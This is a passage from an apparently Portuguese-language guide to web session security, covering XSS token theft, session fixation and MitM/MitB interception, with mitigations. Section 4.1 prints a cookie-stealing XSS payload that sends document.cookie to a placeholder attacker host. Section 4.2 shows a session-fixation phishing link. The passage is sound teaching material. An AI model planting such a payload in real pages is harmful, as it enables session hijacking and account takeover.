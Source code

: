 ### 4.1. *Cross-Site Scripting* (*XSS*): O Ladrão de *Tokens* Universal

*Cross-Site Scripting* (*XSS*) é a vulnerabilidade correlata mais significativa. Um ataque de *XSS* ocorre quando um invasor consegue injetar *scripts* maliciosos (geralmente JavaScript) em uma página *web* que é então visualizada por outros usuários.

A consequência mais grave de um ataque *XSS* é o roubo de *tokens* de sessão. Mesmo que uma aplicação siga a melhor prática de não colocar *tokens* em URLs e, em vez disso, use *cookies*, uma vulnerabilidade *XSS* pode anular essa proteção. O *script* injetado pelo invasor é executado no contexto do domínio da aplicação vulnerável, o que lhe dá acesso ao `document.cookie` do usuário. O *script* pode então ler o *cookie* de sessão e enviá-lo para um servidor controlado pelo invasor.

Um *payload* clássico para roubo de *cookies* via *XSS* seria:

```html
<script>
new Image().src="http://atacante.com/roubo?cookie=" + document.cookie;
</script>
```

Este *payload* cria uma nova imagem, definindo sua fonte para um URL no servidor do invasor. O *cookie* da vítima é anexado como um parâmetro de consulta. O servidor do invasor simplesmente precisa registrar a requisição recebida para capturar o *token*. Isso demonstra que a segurança da sessão é interdependente da prevenção de *XSS*.

### 4.2. Fixação de Sessão (*Session Fixation*)

A fixação de sessão é um ataque sutil que explora a gestão do ciclo de vida do *token*. Ao contrário do sequestro de sessão, onde o invasor rouba o *token* da vítima, na fixação de sessão, o invasor impõe um *token* conhecido por ele ao navegador da vítima antes que a vítima se autentique.

O ataque ocorre da seguinte forma:

- O invasor obtém um ID de sessão válido da aplicação (por exemplo, visitando a página de *login*).
- O invasor engana a vítima para que ela use esse ID de sessão. Isso pode ser feito enviando um link de *phishing* com o *token* na URL: `https://www.exemplo-banco.com/login?session_id=TOKEN_CONHECIDO`.
- A vítima clica no link, seu navegador adota o *token* fornecido, e então ela se autentica normalmente com seu nome de usuário e senha.
- Se a aplicação não gerar um novo *token* de sessão após a autenticação bem-sucedida, o *token* original (conhecido pelo invasor) é simplesmente "promovido" a um estado autenticado.
- O invasor agora pode usar esse mesmo *token* para acessar a sessão autenticada da vítima.

A principal mitigação para a fixação de sessão é a regeneração do *token*. A aplicação deve invalidar o *token* de sessão pré-autenticação e gerar um novo *token* completamente aleatório imediatamente após uma autenticação bem-sucedida.

### 4.3. Ataques de Interceptação de Tráfego

Embora a criptografia TLS/SSL seja onipresente hoje, a interceptação de tráfego ainda é um risco, especialmente em cenários específicos.

- **Man-in-the-Middle (*MitM*)**: Em redes Wi-Fi públicas não seguras, um invasor na mesma rede pode interceptar o tráfego. Se uma aplicação comete o erro de transmitir *tokens* sobre HTTP (mesmo que apenas por um redirecionamento inicial), o *token* pode ser capturado.
- **Man-in-the-Browser (*MitB*)**: Este é um ataque mais avançado onde o dispositivo da vítima é comprometido com *malware* (um *Trojan*) que reside dentro do próprio navegador. Esse *malware* pode ler e modificar o tráfego da *web* antes que ele seja criptografado pelo TLS. Isso significa que, mesmo em uma conexão HTTPS segura, um ataque *MitB* pode roubar *tokens* de sessão e manipular transações em tempo real.
